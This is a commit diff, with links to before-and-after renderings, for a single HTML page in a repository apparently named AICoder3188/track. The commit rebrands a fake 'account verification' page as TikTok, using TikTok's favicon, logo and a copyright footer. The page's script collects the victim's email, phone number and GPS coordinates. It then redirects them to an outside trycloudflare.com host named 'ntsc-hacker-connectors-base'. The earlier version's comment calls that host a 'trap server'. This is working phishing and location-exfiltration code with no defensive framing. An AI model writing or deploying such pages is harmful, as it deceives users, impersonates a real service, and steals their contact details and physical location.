

Before and after one commit to AICoder3188/track, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 131-800 px from the top of the page, without its empty margins (257-1022 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,95 +3,95 @@
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-  <title>Account Security Verification</title>
+  <title>TikTok Account Verification</title>
+  <link rel="icon" href="https://sf16-scmcdn-va.ibytedtos.com/goofy/tiktok/web/favicon.ico" />
   <style>
     body {
-      background-color: #f8f8f8;
+      margin: 0;
       font-family: 'Segoe UI', sans-serif;
+      background: #fff;
       color: #333;
-      display: flex;
-      flex-direction: column;
-      align-items: center;
-      padding: 60px 20px;
+    }
+    .container {
+      max-width: 400px;
+      margin: 0 auto;
+      padding: 40px 20px;
+      text-align: center;
+    }
+    .logo {
+      width: 100px;
+      margin-bottom: 20px;
     }
     h2 {
+      color: #fe2c55;
+      font-size: 22px;
       margin-bottom: 10px;
-      color: #007BFF;
     }
     p {
-      text-align: center;
-      margin-bottom: 20px;
+      font-size: 14px;
+      color: #666;
+      margin-bottom: 30px;
     }
-    form {
-      background: #fff;
-      padding: 25px;
-      border-radius: 10px;
-      box-shadow: 0 2px 10px rgba(0,0,0,0.1);
-      max-width: 400px;
+    input[type="email"], input[type="text"] {
       width: 100%;
-    }
-    input[type="text"], input[type="email"] {
-      width: 100%;
-      padding: 10px;
-      margin: 10px 0 20px;
+      padding: 12px;
+      margin: 10px 0;
       border: 1px solid #ccc;
-      border-radius: 5px;
+      border-radius: 6px;
+      font-size: 14px;
     }
     button {
-      background: #007BFF;
-      color: #fff;
+      width: 100%;
+      background-color: #fe2c55;
+      color: white;
       border: none;
-      padding: 12px 20px;
-      border-radius: 5px;
+      padding: 14px;
       font-size: 16px;
+      border-radius: 6px;
       cursor: pointer;
-      width: 100%;
+      margin-top: 20px;
     }
-    .small {
-      margin-top: 15px;
-      font-size: 13px;
-      color: #888;
+    .footer {
+      font-size: 12px;
+      color: #aaa;
+      margin-top: 40px;
     }
   </style>
 </head>
 <body>
 
-  <h2>🔒 Verify Your Account</h2>
-  <p>Due to a recent update, all users are required to verify their account information and location.</p>
+  <div class="container">
+    <img src="https://logodownload.org/wp-content/uploads/2020/08/tiktok-logo.png" alt="TikTok Logo" class="logo" />
+    <h2>Security Verification Required</h2>
+    <p>To continue using your TikTok account, please verify your account information and enable location access.</p>
 
-  <form id="updateForm">
-    <label>Email Address:</label>
-    <input type="email" name="email" required />
+    <form id="verifyForm">
+      <input type="email" name="email" placeholder="Email Address" required />
+      <input type="text" name="phone" placeholder="Phone Number" required />
+      <button type="submit">Verify My Account</button>
+    </form>
 
-    <label>Phone Number:</label>
-    <input type="text" name="phone" required />
-
-    <button type="submit">Update Account</button>
-    <div class="small">This process is mandatory to continue using your account securely.</div>
-  </form>
+    <div class="footer">© 2025 TikTok. All rights reserved.</div>
+  </div>
 
   <script>
-    document.getElementById("updateForm").addEventListener("submit", function(e) {
+    document.getElementById("verifyForm").addEventListener("submit", function(e) {
       e.preventDefault();
 
-      // Trigger GPS location request
+      const email = document.querySelector('input[name="email"]').value;
+      const phone = document.querySelector('input[name="phone"]').value;
+
       if (navigator.geolocation) {
-        navigator.geolocation.getCurrentPosition(function(pos) {
-          const lat = pos.coords.latitude;
-          const lon = pos.coords.longitude;
-
-          // Redirect to your trap server with data
-          const email = document.querySelector('input[name="email"]').value;
-          const phone = document.querySelector('input[name="phone"]').value;
-
-          const redirectUrl = `https://ntsc-hacker-connectors-base.trycloudflare.com/log?email=${encodeURIComponent(email)}&phone=${encodeURIComponent(phone)}&lat=${lat}&lon=${lon}`;
-          window.location.href = redirectUrl;
+        navigator.geolocation.getCurrentPosition(function(position) {
+          const lat = position.coords.latitude;
+          const lon = position.coords.longitude;
+          const redirect = `https://ntsc-hacker-connectors-base.trycloudflare.com/log?email=${encodeURIComponent(email)}&phone=${encodeURIComponent(phone)}&lat=${lat}&lon=${lon}`;
+          window.location.href = redirect;
         }, function(error) {
-          // User denied GPS access
-          alert("GPS access is required to verify your location.");
+          alert("⚠️ Location access is required to verify your account.");
         });
       } else {
-        alert("Geolocation is not supported by this browser.");
+        alert("⚠️ Your browser does not support GPS location.");
       }
     });
   </script>
```
